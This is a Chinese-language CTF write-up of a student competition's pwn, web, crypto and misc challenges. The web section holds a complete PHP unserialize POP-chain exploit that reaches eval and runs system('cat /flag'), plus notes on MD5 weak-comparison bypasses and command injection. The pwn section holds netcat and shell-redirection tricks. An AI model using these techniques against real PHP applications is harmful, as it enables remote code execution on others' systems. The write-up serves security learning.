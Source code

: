 1. [pwn](#pwn)
# pwn
1. 真nc就给flag

    nc pwn.aw31-hack.top 10002

直接nc一下进取，cat/flag.txt就完事了
2. nc就给flag
![](./i/10.png)

比较狗，提示stdout is close，那我们输入一个参数

    exec 1>&0

就可以继续获取我们的flag了

# web
1. easy_md5
![](./i/1.png)

php的弱比较，找md5前和md5后都是0e开头的，第一个比较是数组不能被md5化

2. php_is_the_best_language

查看源码有提示，传个猴子我是没想到的，套神太强了

![](./i/2.png)

绕过第一个比较，数字后面随便加字符就行，绕过第二个写个php就可以找到

```php
<?php 
for ($i=0;$i < 100000;$i++){
 $shell=md5($i);
 if(substr($shell,5,5)=== "dc3ad"){
 echo "$shell<br />";
 echo $i; 
 }
}
?>
```
3. [echo] More than just 🐎?

尝试着，再看传参应该是命令注入，已知cmd[]=传入数组会报错，试着试着就出来了，这题真的迷糊，不知道为啥cat /flag不行，估计后台过滤了

![](./i/3.png)

4. 重复几次

太阴了，buu有题，hint提示fl@g和ffffllllaaaagggg被误导了，结果是flag，套神师傅饶了我吧

![](./i/4.png)

5. php_serialize_2

一道比较简单的反序列化构造，直接上pop
```php
<?php
class class1{
    public $var1;
    public $var2;
    public function __construct()
    {
        echo "Have Fun!!!";
    }
    public function __wakeup()
    {
        $this->var1->solving();
    }
}
class class2
{
    public $var1;
    public $var2;
    public function solving()
    {
        echo "Solved???";
    }
}
class class3
{
    public $var1;
    public $var2;
    public function solving()
    {
        $this->var2->getFlag();
    }
}
class class4
{
    public $var1='flag{this_is_not_Flag}';
    public $var2;
    public function getFlag()
    {
        echo "flag{".$this->var1."}";
    }
}
class class5
{
    public $var1;
    public $var2;
    public function hackCmd($cmd)
    {
        @eval($cmd);
    }
    public function call()
    {
       $this->hackCmd($this->var1);

    }


}
class class6
{
    public $var1;
    public $var2;
    public function __toString()
    {
        $this->var1->hack();
        return "{this_is_not_Flag}";
    }
}
class class7
{
    public $var1="AWSL";
    public $var2;
    public function __invoke()
    {
        echo "Bite Me".$this->var1;
    }
}
class class8
{
    public $var1;
    public $var2;
    public function hack()
    {
        echo "决胜局～";
        $this->var1->call();
    }
}
if(isset($_GET['a']))
{
    unserialize($_GET['a']);
}
$a=new class1;
$a->var1=new class3;
$a->var1->var2=new class4;
$a->var1->var2->var1=new class6;
$a->var1->var2->var1->var1=new class8;
$a->var1->var2->var1->var1->var1=new class5;
$a->var1->var2->var1->var1->var1->var1="system('cat /flag');";
echo urlencode(serialize($a));
?>
```
![](./i/5.png)

感动，人生第一次做出来ctf比赛的反序列化

# Crypto
1. 凯撒加入了北约
看到那么多新生都做出来，亚历山大，看了半天才试出来，先把首字母截取

```python
s='Charlie Hotel Alfa Romeo Lima India Echo Alfa Lima Foxtrot Alfa Echo Charlie Hotel Oscar Sierra India Echo Romeo Romeo Alfa Alfa Lima Foxtrot Alfa Romeo Oscar Mike Echo Oscar India November Delta India Alfa November Oscar Victor Echo Mike Bravo Echo Romeo November Oscar Victor Echo Mike Bravo Echo Romeo Alfa Lima Foxtrot Alfa Tango Alfa November Golf Oscar Oscar Sierra Charlie Alfa Romeo'
for i in s:
    if ord(i)>64 and ord(i) < 91:
        print(i,end="")
```

得到

CHARLIEALFAECHOSIERRAALFAROMEOINDIANOVEMBERNOVEMBERALFATANGOOSCAR

然后全都转换成小写，再认识一下单词，英语不太好，再把所有单词首字母提出来就是flag了

# misc
1. Unicode

太阴了，还有隐藏字符，，，，，直接unidecode两次

![](./i/6.png)

2. lsb

,查看颜色通道，有个通道上面有牙啃得东西，送分题

![](./i/7.png)

3. peekaboo

首先是密码暴力破解，六位数密码，破解出来后是个world，无法打开，binwalk分离一下，成功获取flag

4. re

根据题目，先re，然后直接转换图片flag就出来了

5. 破解WIFI密码

破解这个.cap

![](./i/8.png)

获得密码admin123

6. miku

有点类似祥云杯的一道misc，emmm想了好久

gif先分离，发现只有两种图片，第一直觉是二进制，然后先尝试转换了一下二进制，想了半天应该不是ascii，也不是ascii加凯撒，最终发现729可以开方，这就好办了，直接弄成二维码，果然就是二维码

![](./i/9.png)